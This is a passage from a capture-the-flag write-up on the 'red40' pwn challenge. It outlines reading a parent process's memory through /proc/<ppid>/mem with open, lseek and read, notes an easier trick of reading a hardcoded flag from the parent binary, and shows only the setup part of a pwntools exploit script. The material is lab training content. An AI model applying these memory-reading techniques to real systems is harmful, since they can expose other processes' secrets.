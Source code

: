 I write this writeup long after the competition had already ended, and didn't take the screenshot of running it againts remote so you have just take my word and it works lol :p

#### Reading Parent memory without PTRACE

there's another way to read to read parent's memory process without requiring to PTRACE, I found this solution in the TCP1P server which if you joined the discord, you can open the writeup here:

{% embed url="https://discord.com/channels/848446674103697461/1230542325273329715/1231808858834600067" %}

in summary:

* `open("/proc/<ppid>/mem", O_RDONLY)`
* `lseek(mem_fd, flag_addr, SEEK_SET)`
* `read(mem_fd, buf, 0x30)`
* `write(1, buf, 0x30)`

#### Cheesy Solution

the cheese to solution to this which I didn't know why I didn't think of this lol, is to just basically read the parent' binary. since the flag is hardcoded, we can read the string at a certain offset using `lseek()`, we can figure out where the binary is located from the dockerfile that they provided.

#### Another awesome PTRACE challenge

Another thing I wanted to note is that the writeup linked below helped me a lot in debugging and understanding while also motivates me to do the exploit the PTRACE way:

{% embed url="https://github.com/nobodyisnobody/write-ups/tree/main/NahamCon.EU.CTF.2022/pwn/limited_resources" %}

the challenge in that writeup is harder and definitely more interesting as it uses PTRACE to patch a process in real time.

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = '../red40'
elf = context.binary = ELF(exe, checksec=True)
parent = '../parent'
paret = ELF(parent, checksec=False)
libc = '../libc/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'red40.ctf.umasscybersec.org', 1337

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe, 'loop'] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    elif args.PARENT:
        return process([parent, 'fork'] + argv)
    elif args.HEH:
        return gdb.debug([parent, 'fork'] + argv, gdbscript=gdbscript)
    else:
        return process([exe, 'loop'] + argv)

```
